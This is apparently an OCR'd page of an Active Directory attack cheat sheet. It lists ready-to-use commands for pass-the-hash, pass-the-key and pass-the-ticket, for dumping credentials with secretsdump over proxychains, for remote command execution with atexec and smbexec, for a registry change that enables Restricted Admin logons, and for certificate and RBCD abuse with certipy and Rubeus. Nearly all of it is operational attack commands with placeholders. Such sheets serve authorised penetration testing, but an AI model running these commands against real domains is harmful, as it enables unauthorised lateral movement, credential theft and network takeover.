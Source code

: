 ```bash
crackmapexec smb <ip_range> -u <user> -d <domain> -H ':<hash>'
crackmapexec smb <ip_range>  -u <user> -H ':<hash>' --local-auth
```
winrm
```bash
evil-winrm -i <ip> -u <user> -H <hash>
reg.py <domain>/<user>@<ip> -hashes ':<hash>' add -keyName 'HKLM\System\CurrentControlSet\Control\Lsa' -v 'DisableRestrictedAdmin' -vt 'REG_DWORD' -vd '0'
```
smb
```bash
smbclient.py  -hashes ":<hash>" <user>@<ip>
```
mssql
```bash
crackmapexec mssql <ip_range> -H ':<hash>'
mssqlclient.py -windows-auth -hashes ":<hash>" <domain>/<user>@<ip> 
```
Pass The Key
```bash
Rubeus asktgt /user:victim /rc4:<rc4value>
getTGT.py <domain>/<user> -hashes :<hashes>
getTGT.py -aesKey '<key>' <domain>/<user>@<ip>
```
## Kerberos
pass the ticket
```bash
export KRB5CCNAME=/root/impacket-examples/domain_ticket.ccache > impacket tools: Same as Pass the hash but use : -k and -no-pass for impacket
mimikatz kerberos::ptc "<ticket>"
Rubeus.exe ptt /ticket:<ticket>
proxychains secretsdump -k'<domain>'/'<user>'@'<ip>'
```
aesKey
```bash
impacket tools: Same as Pass the hash but use : -aesKey for impacket (and use FQDN)
proxychains secretsdump -aesKey <key> '<domain>'/'<user>'@'<ip>'
```
SOCK pivoting with relay
```bash
proxychains lookupsid.py <domain>/<user>@<ip> -no-pass -domain-sids
proxychains mssqlclient.py -windows-auth <domain>/<user>@<ip> -no-pass
proxychains secretsdump -no-pass '<domain>'/'<user>'@'<ip>'
proxychains atexec.py  -no-pass  <domain>/<user>@<ip> "command"
proxychains smbexec.py  -no-pass  <domain>/<user>@<ip>
proxychains smbclient.py -no-pass <user>@<ip>
```
certificate
```bash
get certificate:
certipy auth -pfx <crt_file> -dc-ip <dc_ip>

pass the cert:
pkinit:
 gettgtpkinit.py -cert-pfx "<pfx_file>" ^[-pfx-pass  "<cert-password>"] "<fqdn_domain>/<user>" "<tgt_ccache_file>"
 Rubeus.exe asktgt /user:"<username>" /certificate:"<pfx_file>" [/password:"<certificate_password>"] /domain:"<fqdn-domain>" /dc:"<dc>" /show
 certipy auth -pfx <crt_file> -dc-ip <dc_ip>

Schannel:
certipy auth -pfx <crt_file> -ldap-shell
add_computer
set_rbcd
RBCD
```
